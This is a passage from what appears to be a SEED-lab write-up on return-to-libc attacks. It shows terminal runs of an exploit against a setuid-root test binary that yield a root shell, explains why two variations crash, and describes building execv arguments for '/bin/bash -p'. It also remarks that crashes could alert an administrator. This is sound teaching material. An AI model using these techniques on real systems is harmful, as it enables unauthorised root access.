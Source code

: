 ```bash
Address of buffer[] inside bof():  0xffffcebd
Frame Pointer value inside bof():  0xffffced8
# whoami
root
```

### Variation 1
Now lets see what would happen if we don't set the return address of `system` to `exit`:

``` bash
seed@seed:~/Desktop/return-to-libc-lab$ ./exploit.py 
seed@seed:~/Desktop/return-to-libc-lab$ ./retlib 
Address of input[] inside main():  0xffffcef0
Input size: 50
Address of buffer[] inside bof():  0xffffcebd
Frame Pointer value inside bof():  0xffffced8
# whoami
root
# exit
Segmentation fault (core dumped)
```
Since we didn't override the return address it's actually pointing to the `input[]` buffer which is part of the stack of `main()`, So we are saying after we close the root shell jump to stack and since we have no-executable-stack option set, we get a segmentation fault. Now one can say that we don't care since we have already had access to a root shell. But this unusual crashes of programs might get logged and  trigger a administrator to further review the matter.

### Variation 2
Now let's change the filename and see what would happen:
```bash
seed@seed:~/Desktop/return-to-libc-lab$ make
gcc -m32 -DBUF_SIZE=15 -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib && sudo chmod 4755 retlib
seed@seed:~/Desktop/return-to-libc-lab$ mv ./retlib ./newretlib
seed@seed:~/Desktop/return-to-libc-lab$ ./exploit.py 
seed@seed:~/Desktop/return-to-libc-lab$ ./newretlib 
Address of input[] inside main():  0xffffcef0
Input size: 50
Address of buffer[] inside bof():  0xffffcebd
Frame Pointer value inside bof():  0xffffced8
zsh:1: command not found: h
Segmentation fault (core dumped)
```
Since we have changed the filename we have thus changed the location of `/bin/bash` string inside our address space, so the argument we are passing to the `system()` function is most probably a non-valid string and hence we get the error `zsh:1: command not found: h`.

## Task 4
Here we are going to use `execv()` and the origianl `/bin/bash` with the `-p` argument so that it would give us a root shell. For that we need to call `execv()` with the `pathname` and `argv[]` arguments. so first of all we create the `/bin/bash` and `-p` strings in our buffer; then we create an array
that it's first entry points to the `/bin/bash` location and it's second entry points to the `-p` location and it's third entry is four bytes of zero `NULL`.
Now that we have all of this in our buffer, we put the address of `/bin/bash` as the first argument of `execv()` and the address of `argv[]` as the second arguement. The image below can hopefully make it all clear: